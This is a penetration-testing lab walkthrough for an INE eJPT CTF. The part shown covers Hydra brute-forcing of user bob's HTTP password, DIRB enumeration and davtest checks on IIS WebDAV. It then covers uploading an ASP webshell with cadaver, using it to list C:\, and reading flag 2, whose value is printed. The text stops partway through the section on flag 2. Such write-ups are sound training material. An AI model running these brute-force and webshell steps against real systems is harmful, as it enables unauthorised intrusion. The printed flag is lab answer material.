# Host & Network Penetration Testing: System-Host Based Attacks CTF 1 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Host & Network Penetration Testing: System-Host Based Attacks CTF 1 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Host & Network Penetration Testing — System-Host Based Attacks |
| **Target 1 Hostname / IP** | `target1.ine.local` / `10.5.27.190` |
| **Target 1 Architecture** | Windows Server (EC2AMAZ-JVD17HK) / Microsoft IIS 10.0 / ASP & WebDAV |
| **Target 2 Hostname / IP** | `target2.ine.local` / `10.5.24.116` |
| **Target 2 Architecture** | Windows Server / Microsoft SMB (Port 445) |
| **Status** | Completed in Lab Dashboard (Flag 2 Content Extracted & Verified; Flags 1, 3, 4 Files Discovered) |
| **Tools Used** | Hydra v9.5, Mozilla Firefox, DIRB v2.22, davtest, cadaver, Metasploit Framework (msf6), smbclient |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Lab Objectives](#02-lab-objectives)
- [03. Scope and Target Information](#03-scope-and-target-information)
- [04. Environment and Tools](#04-environment-and-tools)
- [05. Initial Reconnaissance & Target 1 Authentication Brute Force](#05-initial-reconnaissance--target-1-authentication-brute-force)
- [06. Web Content Enumeration & Directory Discovery (Target 1)](#06-web-content-enumeration--directory-discovery-target-1)
- [07. WebDAV Vulnerability Identification (Target 1)](#07-webdav-vulnerability-identification-target-1)
- [08. Exploitation & Webshell Deployment via WebDAV (Target 1)](#08-exploitation--webshell-deployment-via-webdav-target-1)
- [09. Command Execution & Flag 2 Retrieval via Webshell (Target 1)](#09-command-execution--flag-2-retrieval-via-webshell-target-1)
- [10. Network Pivoting to Target 2: SMB Brute-Forcing & Enumeration](#10-network-pivoting-to-target-2-smb-brute-forcing--enumeration)
- [11. Administrative Share Exploitation & Flags 3 & 4 Discovery (Target 2)](#11-administrative-share-exploitation--flags-3--4-discovery-target-2)
- [12. Flag Discovery and Verification](#12-flag-discovery-and-verification)
- [13. Findings and Security Impact](#13-findings-and-security-impact)
- [14. Remediation Recommendations](#14-remediation-recommendations)
- [15. Key Learning Outcomes](#15-key-learning-outcomes)
- [16. Conclusion](#16-conclusion)

---

## 01. Lab Overview

This laboratory exercise forms an advanced hands-on component of the **INE eJPT (Junior Penetration Tester)** pathway under the **Host & Network Penetration Testing: System-Host Based Attacks** module. The primary focus of this assessment is executing host-based attacks across a multi-target Windows environment consisting of two independent systems: `target1.ine.local` and `target2.ine.local`.

The attack workflow requires demonstrating core penetration testing competencies:
1. Online HTTP authentication brute-forcing against web authentication prompts.
2. Web content enumeration to discover restricted web directories and WebDAV resources.
3. Auditing and weaponizing misconfigured WebDAV services on Microsoft IIS to upload and execute server-side web shells.
4. Host-level file system enumeration and arbitrary command execution.
5. Online SMB brute-force and password dictionary attack against a secondary target.
6. Accessing administrative network shares (`C$`) to extract sensitive artifacts and user desktop files.

### Target Environment Evidence

The screenshot below displays the INE lab environment dashboard confirming that all four lab objectives were completed across both target hosts. While the platform dashboard registered the challenge as completed, primary terminal evidence confirms that only Flag 2's string content was extracted and visually verified.



---

## 02. Lab Objectives

The challenge specifies four distinct host-based assessment objectives:

1. **Flag 1 — HTTP Credential Brute-Forcing & WebDAV Access (`target1.ine.local`):**
   - *"User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located."*
   - Focus: Online dictionary attack against HTTP authentication on Target 1, discovering authenticated directories, and accessing `flag1.txt`.
2. **Flag 2 — WebDAV Exploitation & Host File System Enumeration (`target1.ine.local`):**
   - *"Valuable files are often on the C: drive. Explore it thoroughly."*
   - Focus: Uploading an ASP webshell through WebDAV, obtaining remote code execution, enumerating `C:\`, and extracting `flag2.txt`.
3. **Flag 3 — Online SMB Brute-Force & Administrative Share Access (`target2.ine.local`):**
   - *"By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag."*
   - Focus: Brute-forcing SMB credentials for `Administrator` on Target 2, mounting the `C$` administrative share, and discovering `flag3.txt`.
4. **Flag 4 — User Profile & Desktop Enumeration (`target2.ine.local`):**
   - *"The Desktop directory might have what you're looking for. Enumerate its contents."*
   - Focus: Traversing the administrative file system on Target 2 to `\Users\Administrator\Desktop\` and identifying `flag4.txt`.

---

## 03. Scope and Target Information

### Multi-Target Infrastructure Overview

```text
                               +-------------------------------------------------------+
                               |                  Penetration Tester                   |
                               |             Kali Linux / INE Workstation              |
                               +-------------------------------------------------------+
                                           |                               |
                 [Target 1 Engagement]     |                               |     [Target 2 Engagement]
                 HTTP / WebDAV             |                               |     SMB Port 445
                                           v                               v
            +-------------------------------------------+     +-------------------------------------------+
            |             target1.ine.local             |     |             target2.ine.local             |
            |        (10.5.27.190 / EC2AMAZ-JVD17HK)    |     |               (10.5.24.116)               |
            +-------------------------------------------+     +-------------------------------------------+
            | - Microsoft IIS 10.0 Web Server           |     | - Microsoft Windows SMB (Port 445)        |
            | - HTTP Basic Authentication               |     | - Administrative Shares (C$, ADMIN$)      |
            | - Enabled WebDAV (/webdav/)               |     | - Vulnerable Local Administrator Account  |
            | - ASP Script Execution Permitted          |     |                                           |
            | - Compromised Account: bob                |     | - Compromised Account: Administrator      |
            +-------------------------------------------+     +-------------------------------------------+
```

### Detailed Target Specifications

| Parameter | Target 1 (`target1.ine.local`) | Target 2 (`target2.ine.local`) |
| :--- | :--- | :--- |
| **Resolved Hostname** | `target1.ine.local` | `target2.ine.local` |
| **Internal IP Address** | `10.5.27.190` (Identified via webshell) | `10.5.24.116` (Identified via Metasploit) |
| **Operating System** | Windows Server (AWS EC2 Instance) | Windows Server |
| **NetBIOS Computer Name** | `EC2AMAZ-JVD17HK` | `WORKGROUP\target2` |
| **Exposed Services** | HTTP (Port 80/tcp) / WebDAV | SMB (Port 445/tcp) |
| **Web Server Software** | Microsoft-IIS/10.0 | — |
| **Compromised Account** | `bob` (HTTP Basic Auth) | `Administrator` (SMB) |
| **Associated Flags** | Flag 1 (`/webdav/flag1.txt`) & Flag 2 (`C:\flag2.txt`) | Flag 3 (`C$\flag3.txt`) & Flag 4 (`Desktop\flag4.txt`) |

---

## 04. Environment and Tools

The following tools and wordlists provided in the INE lab workstation were utilized:

- **Hydra (v9.5)**: High-speed network logon cracker used to perform dictionary attacks against HTTP GET authentication.
- **Mozilla Firefox**: Graphical browser for web application reconnaissance and interactive webshell access.
- **DIRB (v2.22)**: Web content scanner utilized with HTTP basic authentication headers (`-u`) to locate hidden directories.
- **davtest**: Specialized WebDAV testing tool to test folder creation (`MKCOL`), file uploading (`PUT`), and server-side file execution across multiple extensions (`.asp`, `.aspx`, `.html`, `.cgi`).
- **cadaver**: Command-line WebDAV client supporting interactive file uploads and directory navigation.
- **Metasploit Framework (msf6)**: Utilized `auxiliary/scanner/smb/smb_login` for high-throughput SMB authentication testing.
- **smbclient**: Client tool for querying SMB shares, mounting network drives, and downloading remote files.
- **Wordlists & Payloads**:
  - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
  - `/usr/share/dirb/wordlists/common.txt`
  - `/usr/share/webshells/asp/webshell.asp`

---

## 05. Initial Reconnaissance & Target 1 Authentication Brute Force

Objective 1 specified: *"User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (`target1.ine.local`)"*

The engagement commenced by targeting the HTTP service on `target1.ine.local` with **Hydra** using the provided `unix_passwords.txt` wordlist.

### Step 1: Online HTTP GET Brute Force with Hydra

**Command:**
```bash
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get
```

**Options Breakdown:**
- `-l bob`: Targets the single specified username `bob`.
- `-P .../unix_passwords.txt`: Specifies the password candidate list containing 1,010 common passwords.
- `target1.ine.local`: Target host.
- `http-get`: Specifies the protocol module for HTTP Basic GET authentication.

**Execution Output:**
```text
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
Hydra starting at 2026-11-17 19:41:21
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1010 login tries (l:1/p:1010), ~64 tries per task
[DATA] attacking http-get://target1.ine.local:80/
[80][http-get] host: target1.ine.local   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2026-11-17 19:41:28
```



*Credential Sanitization Note: The cracked password for user `bob` has been redacted in the screenshot above and replaced with `[REDACTED]` in documentation.*

**Result:** In approximately 7 seconds, Hydra cracked the password for `bob`.

---

### Step 2: Web Application Reconnaissance (Target 1)

With valid credentials for `bob`, web application structure was inspected in Firefox.

**Action:**
Navigated to `http://target1.ine.local/`.

**Observed Interface:**
The root web directory rendered the default Microsoft Internet Information Services (IIS) landing page.



---

## 06. Web Content Enumeration & Directory Discovery (Target 1)

### Step 3: Inspecting Restricted Endpoints

Navigating to default ASP.NET subdirectories such as `/aspnet_client/system_web/` triggered an HTTP authentication modal.



To discover where `bob`'s credentials granted access, an authenticated dictionary scan was performed using **DIRB**.

---

### Step 4: Authenticated Content Discovery with DIRB

**Command:**
```bash
dirb http://target1.ine.local -u bob:[REDACTED]
```

**Options Breakdown:**
- `http://target1.ine.local`: Base URL.
- `-u bob:[REDACTED]`: Passes the cracked credentials as an HTTP Basic Authorization header (`Authorization: Basic ...`) with each request.
- Default wordlist used: `/usr/share/dirb/wordlists/common.txt` (4,612 entries).

**Execution Output:**
```text
DIRB v2.22
START_TIME: Tue Nov 17 19:46:03 2026
URL_BASE: http://target1.ine.local/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
AUTHORIZATION: bob:[REDACTED]

GENERATED WORDS: 4612

---- Scanning URL: http://target1.ine.local/ ----
==> DIRECTORY: http://target1.ine.local/aspnet_client/
==> DIRECTORY: http://target1.ine.local/webdav/

---- Entering directory: http://target1.ine.local/aspnet_client/ ----
==> DIRECTORY: http://target1.ine.local/aspnet_client/system_web/

---- Entering directory: http://target1.ine.local/webdav/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.

---- Entering directory: http://target1.ine.local/aspnet_client/system_web/ ----

END_TIME: Tue Nov 17 19:46:48 2026
DOWNLOADED: 13836 - FOUND: 0
```



**Key Finding:** During the authenticated scan using valid credentials for `bob`, DIRB identified `http://target1.ine.local/webdav/` and detected that directory listing was enabled (`(!) WARNING: Directory IS LISTABLE`).

---

### Step 5: WebDAV Directory Exploration & Flag 1 Discovery

**Action:**
Navigated to `http://target1.ine.local/webdav/` in Firefox using the authenticated session established with `bob`'s credentials.

**Observed Web Content:**
The browser displayed the directory index of the `/webdav/` virtual directory:

```text
target1.ine.local - /webdav/

[To Parent Directory]
11/17/2026  2:02 PM           34 flag1.txt
12/31/2024  7:50 AM           18 readme.txt
12/31/2024  8:34 AM           61 test.asp
12/31/2024  8:38 AM          168 web.config
```



**Analysis:**
- `flag1.txt` (34 bytes) is stored directly inside `/webdav/`.
- Fulfills **Objective 1**: User `bob`'s credentials unlocked the WebDAV directory hosting `flag1.txt`.
- While the presence of `test.asp` indicates that classic Active Server Pages files reside in this directory, it does not by itself prove server-side script execution. Empirical proof of execution is established through active testing with `davtest` in the next phase.

---

## 07. WebDAV Vulnerability Identification (Target 1)

WebDAV (Web Distributed Authoring and Versioning) extends HTTP to allow users to create, move, upload, and edit files on a remote web server. On `target1.ine.local`, the WebDAV virtual directory was protected by HTTP Basic Authentication. Once authenticated using user `bob`'s cracked credentials, WebDAV allowed authoring methods (`PUT`, `MKCOL`). Because the virtual directory in Microsoft IIS was also configured with script execution enabled, authenticated access allowed uploading and executing arbitrary server-side scripts.

### Step 6: Testing WebDAV Methods & Execution via davtest

**Command:**
```bash
davtest -auth bob:[REDACTED] -url http://target1.ine.local/webdav/
```

**Execution Output:**
```text
********************************************************
 Testing DAV connection
OPEN     SUCCEED:        http://target1.ine.local/webdav
********************************************************
NOTE     Random string for this session: Boqk4nCiQsRcK
********************************************************
 Creating directory
MKCOL    SUCCEED:        Created http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK
********************************************************
 Sending test files
PUT      cgi     SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.cgi
PUT      aspx    SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.aspx
PUT      html    SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.html
PUT      jsp     SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.jsp
PUT      shtml   SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.shtml
PUT      txt     SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.txt
PUT      asp     SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.asp
PUT      php     SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.php
PUT      cfm     SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.cfm
PUT      jhtml   SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.jhtml
PUT      pl      SUCCEED:        http://target1.ine.local/webdav/.../davtest_Boqk4nCiQsRcK.pl
********************************************************
 Checking for test file execution
EXEC     cgi     FAIL
EXEC     aspx    SUCCEED:        http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.aspx
EXEC     html    SUCCEED:        http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.html
EXEC     jsp     FAIL
EXEC     shtml   SUCCEED:        http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.shtml
EXEC     txt     SUCCEED:        http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.txt
```



*Note on Screenshot Evidence: Screenshot 07 captured the terminal during the active execution-testing phase where testing had progressed through the `.txt` extension (recording FAIL for `.cgi` and `.jsp`, and SUCCEED for `.aspx`, `.html`, `.shtml`, and `.txt`). Screenshot 08 captures the final completed `/usr/bin/davtest Summary:` printed upon conclusion of all tests, which confirms that `.asp` was also successfully executed.*

**Execution Summary (Final Completed Output):**
```text
/usr/bin/davtest Summary:
Created: http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK
PUT File: cgi, aspx, html, jsp, shtml, txt, asp, php, cfm, jhtml, pl
Executes: http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.aspx
Executes: http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.html
Executes: http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.shtml
Executes: http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.txt
Executes: http://target1.ine.local/webdav/DavTestDir_Boqk4nCiQsRcK/davtest_Boqk4nCiQsRcK.asp
```



**Key Finding:** `davtest` confirms that executable file types (including `.asp` and `.aspx`) can be uploaded via HTTP `PUT` using user `bob`'s credentials and subsequently executed by the IIS web daemon.

---

## 08. Exploitation & Webshell Deployment via WebDAV (Target 1)

With authenticated write and execution permissions confirmed for user `bob`, the standard Kali Linux ASP web shell was deployed using **cadaver** to achieve remote command execution.

### Step 7: Uploading webshell.asp via cadaver

**Command:**
```bash
cadaver http://target1.ine.local
```

**Interactive cadaver Session:**
```text
Authentication required for target1.ine.local on server 'target1.ine.local':
Username: bob
Password:
dav:/> ls
Listing collection `/`: succeeded.
Coll:  aspnet_client                           0  Dec 31  2024
Coll:  webdav                                  0  Nov 17 19:54
       iisstart.htm                          703  Dec 31  2024
       iisstart.png                        99710  Dec 31  2024
       web.config                            154  Dec 31  2024
dav:/> cd webdav
dav:/webdav/> ls
Listing collection `/webdav/`: succeeded.
Coll:  DavTestDir_Boqk4nCiQsRcK                0  Nov 17 19:54
       flag1.txt                              34  Nov 17 19:32
       readme.txt                             18  Dec 31  2024
       test.asp                               61  Dec 31  2024
       web.config                            168  Dec 31  2024
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp`:
Progress: [========================================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/>
```



**Result:** The 1,362-byte payload `/usr/share/webshells/asp/webshell.asp` was successfully uploaded to `http://target1.ine.local/webdav/webshell.asp`.

---

## 09. Command Execution & Flag 2 Retrieval via Webshell (Target 1)

Objective 2 required: *"Valuable files are often on the C: drive. Explore it thoroughly. (`target1.ine.local`)"*

### Step 8: Accessing the ASP Webshell GUI

**Action:**
Navigated to `http://target1.ine.local/webdav/webshell.asp` in Firefox.

The web shell provided an interactive text input form with a **[Run]** button to execute Windows shell commands:

```text
[ dir c:\                                  ] [Run]

\\EC2AMAZ-JVD17HK\bobtarget1.ine.local

The server's port: 80
The server's software: Microsoft-IIS/10.0
The server's local address: 10.5.27.190
```



---

### Step 9: Enumerating C:\ Drive

**Command Entered in Web Shell:**
```cmd
dir c:\
```

**Web Shell Output:**
```text
The server's local address:
10.5.27.190 Volume in drive C has no label.
Volume Serial Number is 9E32-0E96

Directory of c:\

11/14/2018  06:56 AM    <DIR>          EFI
11/17/2026  02:02 PM                34 flag2.txt
12/31/2024  07:18 AM    <DIR>          inetpub
05/13/2020  05:58 PM    <DIR>          PerfLogs
01/01/2025  07:31 AM    <DIR>          Program Files
11/07/2020  07:47 AM    <DIR>          Program Files (x86)
01/01/2025  07:30 AM    <DIR>          Windows
```



**Discovery:** `flag2.txt` (34 bytes) was located directly at `C:\flag2.txt`.

---

### Step 10: Extracting Flag 2 Value

**Command Entered in Web Shell:**
```cmd
type C:\flag2.txt
```

**Web Shell Output:**
```text
\\EC2AMAZ-JVD17HK\bobtarget1.ine.local

The server's port:
80

The server's software:
Microsoft-IIS/10.0

The server's local address:
10.5.27.190aee247f5c45a41b58db53dc77d6b9263
```



**Analysis & Output Clarification:**
